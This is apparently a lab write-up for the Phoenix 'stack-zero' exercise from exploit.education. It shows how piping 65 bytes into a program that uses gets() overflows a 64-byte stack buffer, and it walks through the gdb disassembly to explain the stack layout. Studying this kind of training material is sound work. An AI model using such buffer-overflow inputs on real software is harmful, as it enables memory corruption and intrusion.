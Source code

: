 # stack-zero

_The source code for this level can be found here: [stack-zero source code](stack-zero.c) (https://exploit.education/phoenix/stack-zero/)_

Let us have a look at the man page for the gets function. Under the "Bugs"-section it says: _Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead._ Thus, even though the buffer is only 64 bytes in size, gets does not do any checks to see if we write more bytes than that. The changeme variable should be stored right above the buffer on the stack, so to change the variable, all we have to do is to write a bit outside the buffer. Let us try to feed 65 bytes to the buffer.

```console
user@phoenix-amd64:/opt/phoenix/amd64$ python -c 'print("A"*65)' | ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

We could of course be a little more pedagogical by using gdb to look at what actually happens. We open the binary in gdb and disassemble main:

```console
user@phoenix-amd64:/opt/phoenix/amd64$ gdb stack-zero
...output omitted...
gef➤  disassemble main
Dump of assembler code for function main:
   0x00000000004005dd <+0>:	push   rbp
   0x00000000004005de <+1>:	mov    rbp,rsp
   0x00000000004005e1 <+4>:	sub    rsp,0x60
   0x00000000004005e5 <+8>:	mov    DWORD PTR [rbp-0x54],edi
   0x00000000004005e8 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004005ec <+15>:	mov    edi,0x400680
   0x00000000004005f1 <+20>:	call   0x400440 <puts@plt>
   0x00000000004005f6 <+25>:	mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004005fd <+32>:	lea    rax,[rbp-0x50]
   0x0000000000400601 <+36>:	mov    rdi,rax
   0x0000000000400604 <+39>:	call   0x400430 <gets@plt>
   0x0000000000400609 <+44>:	mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040060c <+47>:	test   eax,eax
   0x000000000040060e <+49>:	je     0x40061c <main+63>
   0x0000000000400610 <+51>:	mov    edi,0x4006d0
   0x0000000000400615 <+56>:	call   0x400440 <puts@plt>
   0x000000000040061a <+61>:	jmp    0x400626 <main+73>
   0x000000000040061c <+63>:	mov    edi,0x400708
   0x0000000000400621 <+68>:	call   0x400440 <puts@plt>
   0x0000000000400626 <+73>:	mov    edi,0x0
   0x000000000040062b <+78>:	call   0x400450 <exit@plt>
End of assembler dump.
```

(If you get a python exception of type UnicodeEncodeError, then running the command "export LC_CTYPE=C.UTF-8" (not in gdb, but in the terminal), should fix it.)

The mov instruction at <main+25> is responsible for setting the locals.changeme variable to 0, as seen on line 31 in the source code. The variable is put on the stack at the address \[rbp-0x10\]. The next instruction lea loads the address \rbp-0x50\ (a pointer to the first byte of the buffer) into the rax register, which is then moved to the rdi register. This register is generally used in x86 for storing the first argument in a function call. Next, gets is called, and our input will be put in the buffer, which starts at rbp-0x50 and ends 63 bytes above at rbp-0x11 (for a total of 64 bytes). Thus, by writing just one byte more than the buffer can hold (and because gets does not prevent us from doing so), the changeme integer gets changed.
